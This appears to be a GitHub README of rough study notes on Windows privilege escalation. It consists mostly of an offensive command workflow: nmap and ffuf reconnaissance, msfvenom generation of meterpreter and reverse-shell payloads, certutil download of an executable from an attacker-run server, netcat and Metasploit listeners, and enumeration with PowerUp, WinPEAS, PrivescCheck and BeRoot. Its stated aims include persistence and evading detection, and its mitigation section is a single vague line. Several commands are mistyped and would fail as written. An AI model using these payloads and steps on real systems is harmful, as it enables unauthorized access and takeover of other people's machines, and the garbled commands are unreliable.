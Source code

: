 # winescalation
Windows Privilege Escalation


Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.


Example - Login to website with someone's account


AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures


2 types:


1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.


2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 


->It basically requires some type of privilages in your hand.


->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.


nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000


If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx 
or (2nd method)
msfvenom -p windows/x64/shell_reverse_tcp lhost= lport=8989,7777 -f exe -o test.exe 

now upload robensive.aspx or test.exe
For uploading (for 2nd method)
python3 -m http-server 8000(for running a server from the linux terminal)
certutil -urlcache -f -split http:://lhost:8000/test.exe test.exe(On target windows command prompt)
nc -lnvp 8989 (on termainal)
test.exe

run metasploit listener(for 1st method)

msfdb run 
uer exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost=yourip
set lport=445(as used before)
run

Now access robensive.aspx via browser and get meterpreter
##Completer Initiall Access##

getuid 
getprivs
sc qc unquotedsvc => cd BINARY_PATH_NAME"
cmdkey /list


Enumeration for privsec
->some known scripts:
PowerUp
WinPEAS
PrivescCheck
BeRoot
PayloadAllThings
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts

Practical part
shell
net localgroup administrators -> got  all users
net user "username"
exit

1.Powerup (google it)
wget from github
load
load powershell
help
powershell_import PowerUp.ps1
powershell_execurte Invoke_powerup(can cause problem to use  for powerups

2.Privescheck(google it)
powershell_import PrivescCheck.ps1
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github)
upload winpeasx64.exe(on meterpreter)
shell
winpeasx64.exe


4.Beroot(install from github )
upload beRoot.exe
shell 
beroot.exe

#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied
